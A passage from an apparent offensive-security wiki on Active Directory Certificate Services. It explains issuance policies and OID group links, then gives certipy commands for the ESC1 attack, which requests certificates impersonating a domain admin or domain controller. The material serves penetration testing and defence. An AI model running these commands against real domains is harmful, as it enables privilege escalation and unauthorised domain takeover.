 If some certificate authentication issues are encountered in an Active Directory, [Microsoft has officially suggested](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16) to set the `CertificateMappingMethods` value to `0x1f` (old value).

#### Issuance policies

It is possible to apply issuance policies to certificate templates. This takes the form of a certificate extension, and is stored as an OID (object identifier) in the `msPKI-Certificate-Policy` attribute of the template. When the CA issues the certificate, the policy is added to the "Certificate Policies" attribute of the certificate. A template stores required policies in the `msPKI-RA-Policies` attribute.

An issuance policy can be set up by a company, for example, for access control: a system can require a user to present a certificate with a given policy in order to guarantee that the system only grants access to authorised users. Issuing policies are `msPKI-Enterprise-Oid` objects found in the PKI OID container (`CN=OID,CN=Public Key Services,CN=Services`, in the Configuration Naming Context).

This object has an `msDS-OIDToGroupLink` attribute which allows a policy to be linked to an AD group so that a system can authorise a user presenting the certificate as if he were a member of this group. As explained by [Jonas Bülow Knudsen](https://twitter.com/Jonas_B_K) in [his ADCS ESC13 article](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53).

> If you perform client authentication with the certificate, then you will receive an access token specifying the membership of this group.
> 
> ([specterops.io](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53))

## Practice

### (ESC1) Template allows SAN 

When a certificate template allows to specify a `subjectAltName`, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies `Client Authentication` or `ANY`.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios. 

Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate.

```bash
#To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```
